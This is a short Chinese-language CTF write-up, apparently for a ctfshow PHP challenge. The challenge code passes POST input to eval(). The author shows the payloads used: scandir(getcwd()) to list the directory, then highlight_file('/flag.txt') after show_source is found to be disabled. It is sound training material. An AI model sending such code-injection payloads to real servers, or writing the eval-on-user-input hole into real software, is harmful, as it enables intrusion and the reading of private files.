






```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```


同上题

但是尝试读源码时提示flag不在flag.php




参考无参rce

```
c=var_dump(scandir(getcwd()));
```



扫描根目录





存在flag.txt

读取

```
c=show_source("/flag.txt");
```



但是show_source()被禁用

highlight_file()

```
c=highlight_file("/flag.txt");
```

